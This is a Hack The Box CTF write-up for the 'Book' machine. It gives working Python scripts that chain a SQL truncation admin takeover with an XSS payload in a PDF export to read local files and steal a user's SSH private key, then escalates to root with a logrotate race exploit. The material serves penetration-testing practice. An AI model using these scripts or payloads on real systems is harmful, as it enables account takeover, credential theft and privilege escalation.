

This Box is a Medium Level Box from Hack The Box. It's a little bit hard to explore it, it's level is seted as Medium. The entry point is trough a SSH key which you get with a LFI on the server.

The authentication bypass is with a SQL Truncation attack on the admin@book.htb, which accepts just 20 characteres on it.

The LFI you get with a XSS and HTML to PDF conversion. The scripts to automate everything is on the post.

The root shell you get with a logrorate vulnerability, a race condition with root execution.

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.176
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

Once we found just the port 80 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.

When tryied to access 10.10.10.76 on the browser.


We see on the source code something interesting


It seems to validate if the username has in the max 20 characters. We'll explore it better in the future, but is good take notes of it.

It seems to be a library page

We create a page to connect in it


Now, we login


We look arround it, we got a file upload and something more but nothing exploitable now.

We start a directory fuzzing

```sh
gobuster dir -u http://10.10.10.176 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 40
```


We got some more new folders to look at

### /admin

If we try to put our credentials on it, it pops up an error message


# Reader shell

The first thing we need to do is the Auth Byppass on this website. For this, we will use a technique called `SQL Truncation Attack`.

The main idea for this kind of attack is that the SQL Query is larger than what the SQL Field are waiting for. On the website, the app probably is making two requests, one to verify if the user already exists, something we can imagine like `SELECT * from users WHERE email = INPUT_EMAIL ;`. If the response of this query on the sql is 0, seems that this user does not exist, so, we will add it on the server with a query like `INSERT into users (email, username, password) VALUES (input_email, input_username, input_password);` to add the user.

Always when you define the text field in a SQL database, you must define the max lentgh of this field. This attacks checks when the input in longer than it. In this case, if the field of the username has more than 16 characters, the attack will happen if you send a field with more than 16 characters and after it a plus sign with a valid account and other password you want. The first query will return 0, always, and the second one will be executed. If the site just check the login and password, we can byppass the auth here, because the row in the table will be duplicated with a new password.

First, let's try to get the admin e-mail to attack it


Yep, we got the admin e-mail to perform the attack.

We see on the burp the proper query


`name=0x4rt3mis&email=admin%40book.htb&password=123456`

We can also bruteforce it with hydra or wfuzz to try to get more users, but it's not needed here.

We send it to Repeater, to play with it

`name=0x4rt3mis&email=admin%40book.htb++++++.&password=123456`

When we send a +. I get a 302, which seems to work. But when I try to login on the app, does not work

So I keep increasing the lenght of the + signs and got it. That tells me the max string size in the DB is 20. So when the . is in position 21, it’s dropped, and I registered a user as admin@book.htb


Now, we can log with the credentials 123456 on the admin panel


We see a lot of .php pages here to play with

users.php


message.php


feedback.php


collections.php


## Things Failed

I tried a lot of stuff in this php files. But nothing seems to work.

I looked for:

- SQLInjection in all forms.

- XSS in all pages.

- XSRF for GET and POST requests.

No success. =/

## PDF - HTML - LFI

I found on the source code of collections.php something interesting


`<a href="/admin/collections.php?type=users">PDF</a>`

Seems that the when we Export the Collections on the admin table it's rendering some kind of html. So we can exploit this using javascript.

So we start looking for it on the internet


We found to good references

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf

And

https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/

We found a good payload to test on the second one

```js
<script>
    x=new XMLHttpRequest;
    x.onload=function(){  
    document.write(this.responseText)
};
    x.open("GET","file:///etc/passwd");
    x.send();
</script>
```

One liner

```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```
Now we try to put it on a collection and after export the PDF to see if it's triggering the file read


And yes! We can read files using it


Ok, once we get it. Let's automate this LFI to better enumerate the file system

## Scripting

We get our skeleton in python

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```


```sh
python3 lfi_book.py -t 10.10.10.176 -f /etc/profile
```

```py
#!/usr/bin/python3
# Date: 2021-10-12
# Exploit Author: 0x4rt3mis
# Hack The Box - Book
# Get auto LFI on the server
# OBS: to parse the pdf you need to install tika
# pip install tika
# Wait 1 minute to clean the XSS

import argparse
import requests
import sys
import os
from tika import parser

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# First let's trigger the sql truncation
def adminBook(rhost):
    url = "http://%s:80/index.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"name": "0x4rt3mis", "email": "admin@book.htb      .", "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies, allow_redirects=True)

# Now let's login as admin@book.htb
def loginAdminUpload(rhost,file):
    url = "http://%s:80/index.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"email": "admin@book.htb", "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    #Once logged in, let's upload the malicious payload
    os.system('echo "aa" > 1.html')
    url = 'http://%s:80/collections.php' %rhost
    data = {'title':'<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file://%s");x.send();</script>' %file, 'author':'0x4rt3mis', 'Upload':'Upload'}
    files = {'Upload':('1.html', open('1.jpg', 'rb'))}
    r.post(url, data=data, files=files, proxies=proxies)
    os.system('rm 1.html')

def readFileLFI(rhost):
    # Login on admin panel
    url = "http://%s:80/admin/" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"email": "admin@book.htb", "password": "123456"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    # Now, let's donwload and parse the pdf
    url = "http://%s/admin/collections.php?type=collections" %rhost
    resp = r.get(url, cookies=r.cookies, proxies=proxies)
    pdf = parser.from_buffer(resp.content)
    print(pdf['content'].strip())

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-f', '--file', help='File to be read', required=False)
    args = parser.parse_args()

    rhost = args.target
    file = args.file

    '''Here we call the functions'''
    # Let's trigger the SQL Truncation
    adminBook(rhost)
    # Let's upload the malicious file
    loginAdminUpload(rhost,file)
    # Let's read the file
    readFileLFI(rhost)

if __name__ == '__main__':
    main()
```

## SSH Key

After some good Enum, we found a ssh key from user reader

```sh
python3 lfi_book.py -t 10.10.10.176 -f /home/reader/.ssh/id_rsa
```


Now we log in


Let's automate it all, to get a reverse shell auto


lfi_book.py

```py
#!/usr/bin/python3
# Date: 2021-10-09
# Exploit Author: 0x4rt3mis
# Hack The Box - Book
# Get auto ssh shell on the server
# OBS: to parse the pdf you need to install tika
# pip install tika
# Wait 1 minute to clean the XSS

import argparse
import requests
import sys
import os
from tika import parser
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# First let's trigger the sql truncation
def adminBook(rhost):
    print("[+] Let's trigger the SQL Truncation! [+]")
    url = "http://%s:80/index.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"name": "0x4rt3mis", "email": "admin@book.htb      .", "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies, allow_redirects=True)
    print("[+] Doneee!! [+]")

# Now let's login as admin@book.htb
def loginAdminUpload(rhost,file):
    print("[+] Let's upload the XSS to read the reader's ssh key! [+]")
    url = "http://%s:80/index.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"email": "admin@book.htb", "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    #Once logged in, let's upload the malicious payload
    os.system('echo "aa" > 1.html')
    url = 'http://%s:80/collections.php' %rhost
    data = {'title':'<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file://%s");x.send();</script>' %file, 'author':'0x4rt3mis', 'Upload':'Upload'}
    files = {'Upload':('1.html', open('1.html', 'rb'))}
    r.post(url, data=data, files=files, proxies=proxies)
    os.system('rm 1.html')
    print("[+] Great, done!! [+]")

def readFileLFI(rhost):
    print("[+] Let's read and save the ssh key !!! [+]")
    # Login on admin panel
    url = "http://%s:80/admin/" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"email": "admin@book.htb", "password": "123456"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    # Now, let's donwload and parse the pdf
    url = "http://%s/admin/collections.php?type=collections" %rhost
    resp = r.get(url, cookies=r.cookies, proxies=proxies)
    pdf = parser.from_buffer(resp.content)
    pdf = pdf['content'].strip()
    pdf = re.sub('[ \t]+', ' ',pdf)
    print("[+] Done! Now Let's connect!!!! [+]")
    ssh_key = '/tmp/rsa_key'
    f = open(ssh_key, 'a'); f.write(pdf); f.close()
    os.system('chmod 400 /tmp/rsa_key')
    os.system('sleep 3')
    os.system('ssh -i /tmp/rsa_key reader@%s' %rhost)


def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target
    file = '/home/reader/.ssh/id_rsa'

    '''Here we call the functions'''
    # Let's trigger the SQL Truncation
    adminBook(rhost)
    # Let's upload the malicious file
    loginAdminUpload(rhost,file)
    # Let's read the file
    readFileLFI(rhost)

if __name__ == '__main__':
    main()
```

# reader -> root

Now let's start our privilege escalation to root

The first thing we run [pspy](https://github.com/DominicBreuker/pspy), because we noticed a `backups` folder on the reader's home directory which calls our attention

And we see something interesting, it's running `lograrate`


It's running a bash script on root's folder. We don't have access to it. After some research about it, we discovered that logrorate is used to move log files to backup files.

To test, we can write something to access.log, and see if it rotates in the next five seconds.


We noticed that something is happening here.

After some good time googling for how we can exploit it, and looking 0xdf blog and ippsec video, we found a [blog](https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges) which explains that there is a race condition in it, that we can exploit to get root access.

The logrorate in this case is performing something similar to this

1. mv access.log.1 access.log2

2. mv access.log access.log.1

3. touch access.log with ownership of reader:reader.

The race condition is that if an attacker can execute commands between 2 and 3 above to replace `/home/reader/backup` with a symlink to somewhere else, then root will create a file in any folder the attacker wants on the system owned by the reader.

So, let's try it with the exploit we got on the post

[Logrotten Exploit](https://github.com/whotwagner/logrotten)


Because I know things are resetting every five seconds, we must act quickly, writing the log file and then running the exploit in one line:

```sh
echo 0x4rt3mis >> /home/reader/backups/access.log ;./logrotten -d -p root.sh /home/reader/backups/access.log
```


And we get root


# Code Analysis

Now we should take a look at the code to understant it's vulnerability. Not too much deep, but only to understand how it works.

If we look at index.php on admin folder html we see where the SQL Truncation comes from


On line 14 it gets rid of the spaces on the end of the e-mail if the e-mail is admin@book.htb, is that from where the sql truncation comes from.